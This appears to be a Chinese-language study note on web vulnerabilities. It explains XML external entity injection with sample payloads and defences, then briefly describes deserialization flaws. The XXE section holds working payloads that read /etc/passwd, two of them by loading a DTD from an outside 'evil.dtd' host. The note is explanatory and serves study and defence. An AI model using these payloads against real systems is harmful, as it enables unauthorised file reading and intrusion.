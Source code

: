 ## XXE是什么？攻击方法？危害？防御方法？
#### XXE是什么？
先了解，外部实体声明:<!ENTITY 实体名称 SYSTEM "URI">，示例如下：
```
		<?xml version="1.0"?>
		<!DOCTYPE test [
			<!ENTITY writer SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
			<!ENTITY copyright SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
		]>
		<author>&writer;&copyright;</author>
```
		xxe也就是xml外部实体注入。
#### XXE攻击方法
a. 直接通过DTD外部实体声明
```
			<?xml version="1.0"?>
			<!DOCTYPE a [
				<!ENTITY b SYSTEM "file:///etc/passwd">
			]>
			<c>&b;</c>
```
b. 通过DTD文档引入外部DTD文档，再引入外部实体声明

XML内容：
```
			<?xml version="1.0"?>
			<!DOCTYPE a SYSTEM "http://mark4z5.com/evil.dtd">
			<c>&b;</c>
```
			DTD文件内容：
```
			<!ENTITY b SYSTEM "file:///etc/passwd">
```
c. 通过DTD外部实体声明引入外部实体声明

XML内容：
```
			<?xml version="1.0"?>
			<!DOCTYPE a [
				<!ENTITY % d SYSTEM "http://mark4z5.com/evil.dtd">
				%d;
			]>
			<c>&b;</c>
```
			DTD文件内容：
```
			<!ENTITY b SYSTEM "file:///etc/passwd">
```
#### XXE危害
```
a. 任意文件读取
b. 执行系统命令
c. 探测内网端口
d. 攻击内网
```
#### XXE防御方法
```
a. 禁用外部实体声明
b. 过滤关键词（<!DOCTYPE，<!ENTITY，SYSTEM等）
```

## 反序列化漏洞
#### 序列化和反序列化
1) 序列化：    	把Object转化成字节流，便于保存( eg. Java writeObject() )

2) 反序列化：	把字节流还原成Object ( eg. Java readObject() )
#### 反序列化漏洞
程序对于用户输入的进行反序列化处理，可能导致恶意payload导致的任意代码执行。
#### 影响
Java, PHP, Python等主流计算机语言都存在这种代码隐患。

